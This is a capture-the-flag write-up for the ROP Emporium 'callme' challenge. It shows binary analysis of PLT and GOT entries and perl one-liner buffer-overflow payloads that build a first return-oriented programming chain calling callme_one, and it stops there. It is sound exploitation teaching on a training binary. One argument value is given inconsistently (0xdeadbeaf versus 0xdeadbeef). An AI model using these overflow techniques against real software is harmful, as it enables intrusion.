# callme
The challenge is available [here](https://ropemporium.com/challenge/callme.html).

## Black-Box Test
Let's start as usual with an initial check of the program's behavior.

```
./callme32
```


In this challenge as well, the return address is located at the same index.

```
perl -e 'print "A"x44 . "\xef\xbe\xad\xde"' | ./callme32
```

```
sudo dmesg -k | tail -2
```


Before we start exploring in more depth, let's check what the maximum input size we can enter is.

```
ltrace ./callme32
```


By entering simple input (in this case, `ABCD`) while running the program with `ltrace`, we discovered that the maximum input size we can enter is `512` bytes.

## In-depth research
It's time to note that the solution I am writing assumes that anyone reading it has already read the challenge instructions. So if any process seems strange, please refer to the instructions! :)

The goal of the challenge is to run `callme_one(0xdeadbeaf, 0xcafebabe, 0xd00df00d)`, `callme_two(0xdeadbeaf, 0xcafebabe, 0xd00df00d)`, and `callme_three(0xdeadbeaf, 0xcafebabe, 0xd00df00d)` in that order.

These functions will be imported from an external library, so during the symbol linking process, the `PLT` is involved.

Let's keep these points in mind and continue with the research we're already familiar with. First, we'll discover the functions that are written in the binary itself. (The NX protection exists in all of these challenges, and from now on, I won't mention it again)

```
rabin2 -qs callme32 | grep -ve 'imp' -e ' 0 ' -e '_'
```


We have a helper function called `usefulFunction`, just like in the previous challenge. We'll look at it later. For now, let's search for our three target functions. We can look for them in two places. The first is the `PLT`.

```
rabin2 -i callme32
```


The second is the `GOT.PLT` (again, I emphasize that anyone who hasn't read the challenge instructions should do so to understand the linkage process).

```
rabin2 -R callme32
```


To be sure where the functions reside (in both senses mentioned above), we can look at the memory segments by ranges and see the correspondence.

```
readelf -S callme32
```


Now, let's take a look at the helper function `usefulFunction` and try to understand how it will assist us and how this relates to the `PLT`.

```
gdb callme32
```
```
set disassembly-flavor intel
```
```
disass usefulFunction
```


In the constructed ROP chain, a malicious return to the `usefulFunction` itself won't be beneficial, as it does contain calls to the target functions, but not in the correct order and without the right parameters. Therefore, a malicious return to the call-command for them won't help either, since the call will return to the continuation of execution within `usefulFunction`. Thus, when we call the target functions, we'll use the corresponding address in the `PLT` (highlighted with a green line). Let's take a look at the appropriate entries in the `PLT` table.

```
x/3i 0x080484f0
```
```
x/3i 0x08048550
```
```
x/3i 0x080484e0
```


The addresses highlighted with a green line represent the appropriate entries in the `PLT` table. The addresses highlighted with a yellow line indicate the locations where the actual function addresses are located.

If we now look at the `GOT.PLT` (that is, at the addresses highlighted in yellow), we'll find that they have not yet been resolved (which makes sense, as we haven't called them at all yet).

```
x/wx 0x0804a018
```
```
x/wx 0x0804a030
```
```
x/wx 0x0804a014
```


The keen-eyed will notice that up to this point, we have essentially reached a complete explanation for the output of the commands `rabin2 -i callme32` and `rabin2 -R callme32` that were executed earlier during the research. The addresses in green correspond to the `PLT` and the addresses in yellow correspond to the `GOT.PLT`.

Now, let's try to build a ROP chain that will call the first function. Since we won't be using the `call` command, we also need to ensure that there's a return address from the first function on the stack.

Thus, the order will be as follows (from the top of the stack and down): 
* 44 bytes of garbage:
    * `X`x44
* the address of `callme_one` function via the `PLT`:
    * `0x080484f0`
* some arbitrary return address (currently just garbage):
    * `YYYY`
* followed by the first, second, and third parameters:
    * `0xdeadbeef`, `0xcafebabe`, `0xd00df00d`

So let's exit the debugger (with `q` command) and try the first ROP chain.

```
perl -e 'print "X"x44 . "\xf0\x84\x04\x08" . "YYYY" . "\xef\xbe\xad\xde" . "\xbe\xba\xfe\xca" . "\x0d\xf0\x0d\xd0" ' | ./callme32
```


